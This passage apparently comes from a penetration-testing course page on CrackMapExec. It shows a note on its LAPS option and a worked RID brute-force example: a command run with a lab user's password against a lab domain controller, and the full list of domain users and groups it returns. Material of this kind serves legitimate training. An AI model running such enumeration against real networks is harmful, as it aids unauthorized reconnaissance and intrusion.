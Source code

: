 {% embed url="https://academy.hackthebox.com/storage/modules/84/cmelaps.jpg" %}

Source: [Defeating LAPS](https://wiki.porchetta.industries/smb-protocol/defeating-laps)

{% hint style="info" %}
**Note:** If the default administrator account name is not "administrator," add the username after the option `--laps username`.
{% endhint %}

***

## Enumerate Users by Brute-forcing the RID on the Target `--rid-brute`

An uncommonly used feature is the `RID Bruteforce` to build user lists. We can create a list of users with `BloodHound` or `PowerView`. However, these techniques will likely get caught and take some time to set up. By using the `--rid-brute` option of CrackMapExec, it is possible to gather a list of users by brute forcing its UserID.

### **List Local Users**

```shell-session
$ crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --rid-brute

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [+] Brute forcing RIDs
SMB         10.129.203.121  445    DC01             498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.203.121  445    DC01             500: INLANEFREIGHT\Aministrator (SidTypeUser)
SMB         10.129.203.121  445    DC01             501: INLANEFREIGHT\Guest (SidTypeUser)
SMB         10.129.203.121  445    DC01             502: INLANEFREIGHT\krbtgt (SidTypeUser)
SMB         10.129.203.121  445    DC01             512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
SMB         10.129.203.121  445    DC01             513: INLANEFREIGHT\Domain Users (SidTypeGroup)
SMB         10.129.203.121  445    DC01             514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
SMB         10.129.203.121  445    DC01             515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
SMB         10.129.203.121  445    DC01             516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
SMB         10.129.203.121  445    DC01             517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
SMB         10.129.203.121  445    DC01             518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
SMB         10.129.203.121  445    DC01             519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
SMB         10.129.203.121  445    DC01             520: INLANEFREIGHT\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.203.121  445    DC01             521: INLANEFREIGHT\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.203.121  445    DC01             522: INLANEFREIGHT\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.203.121  445    DC01             525: INLANEFREIGHT\Protected Users (SidTypeGroup)
SMB         10.129.203.121  445    DC01             526: INLANEFREIGHT\Key Admins (SidTypeGroup)
SMB         10.129.203.121  445    DC01             527: INLANEFREIGHT\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.203.121  445    DC01             553: INLANEFREIGHT\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.203.121  445    DC01             571: INLANEFREIGHT\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.203.121  445    DC01             572: INLANEFREIGHT\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.203.121  445    DC01             1002: INLANEFREIGHT\DC01$ (SidTypeUser)
SMB         10.129.203.121  445    DC01             1103: INLANEFREIGHT\DnsAdmins (SidTypeAlias)
```